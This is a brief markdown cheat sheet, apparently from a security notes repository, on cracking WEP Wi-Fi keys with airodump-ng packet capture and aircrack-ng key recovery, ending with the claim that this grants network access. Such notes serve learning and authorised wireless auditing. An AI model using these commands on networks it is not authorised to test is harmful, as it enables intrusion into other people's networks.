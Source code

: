 # WEP Cracking

WEP is an outdated and insecure encryption protocol. Cracking WEP involves capturing enough packets to guess the key.

## Commands

#### 1) Capture packets

    airodump-ng --bssid BSSID -c CHANNEL -w capture wlan0mon

#### 2) Attempt to crack the WEP key using captured packets

    aircrack-ng capture*.cap

After capturing enough packets, you successfully crack the WEP key and gain access to the network.

